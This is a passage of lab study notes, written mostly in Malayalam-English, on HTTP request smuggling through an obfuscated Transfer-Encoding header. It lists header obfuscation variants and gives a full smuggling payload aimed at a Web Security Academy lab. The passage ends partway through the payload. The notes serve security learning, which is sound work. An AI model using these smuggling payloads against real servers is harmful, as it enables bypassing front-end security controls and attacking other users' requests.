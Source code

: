 ### #3 TE.TE behavior: obfuscating the TE header :
-->ivide both front-end and back-end server um transfer-encoding header support chyum
-->pakshe ithil ethengilum oru server inekond ee TE header parse chyikatha reethiyil namal header entho chyum angane aan ee sitation namal exploit chyunath
-->There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

			            Transfer-Encoding: xchunked

						Transfer-Encoding : chunked
						
						Transfer-Encoding: chunked
						Transfer-Encoding: x            (duplicate)
						
						Transfer-Encoding:[tab]chunked
						
						[space]Transfer-Encoding: chunked
						
						X: X[\n]Transfer-Encoding: chunked
						
						Transfer-Encoding
						: chunked

          Lab-3(HTTP request smuggling, obfuscating the TE header)
-->lab open chyuka.enit home page inte GET / request eduth repeater il iduka enit satharana chyunapole url path , host ozhich ellam remove chyth content-length,content-type,transfer-encoding itt send adich nokuka:
POST / HTTP/1.1
Host: 0a6b0036045a6004c0952fcc00d500ef.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
transfer-encoding: chunked

2
as
0

-->send adikumbol 200OK kitum.ini onudi send adikumbol pinem 200OK ennan kitunath.so athinartham backendil ithine filter chyunund
-->so namuk ee WAF ine bypass chyanam.so namuk ee transfer-encoding modify chyth nokam
-->namuk mukalil koduthitula ethengilum oru technique use chyth WAF bypass chyan patumon nokam
-->so namuk rand transfer-encoding header use chyam.onil chunked value kodukam mattethil enthengilum kodutho
-->full payload:

                    POST / HTTP/1.1
					Host: your-lab-id.web-security-academy.net
					Content-Type: application/x-www-form-urlencoded
					Content-length: 4
					Transfer-Encoding: chunked
					Transfer-encoding: cow
					
					5c
					GPOST / HTTP/1.1
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 15
					